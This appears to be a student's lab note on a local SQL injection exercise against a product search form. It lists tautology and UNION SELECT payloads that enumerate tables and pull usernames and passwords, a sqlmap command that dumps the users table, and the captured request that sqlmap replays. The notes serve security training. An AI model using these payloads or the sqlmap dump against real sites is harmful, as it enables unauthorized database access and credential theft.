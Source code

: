 
in bar search :
- `x' or 1=1#`  return all products (we have ***SQL injection***)
- `Tanjyoubi Sushi Rack' union select null,null,null,null#` number of columns
- `Tanjyoubi Sushi Rack' union select null,null,null,table_name from information_schema.tables#`  to know tables of database
- `Tanjyoubi Sushi Rack' union select null,null,null,username from injection0x03_users#` see users
- `Tanjyoubi Sushi Rack' union select null,null,null,password from injection0x03_users#` see password

- 
```bash
sqlmap -r req3.txt -T injection0x03_users --dump
```

>[!question]
>what's in req3.txt

>[!success] Answer
>-  u copy from response :
>POST /labs/i0x03.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: http://localhost
Connection: close
Referer: http://localhost/labs/i0x03.php
Cookie: PHPSESSID=31snl0akpssnqkbb38d3i7fkuo
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
product=test







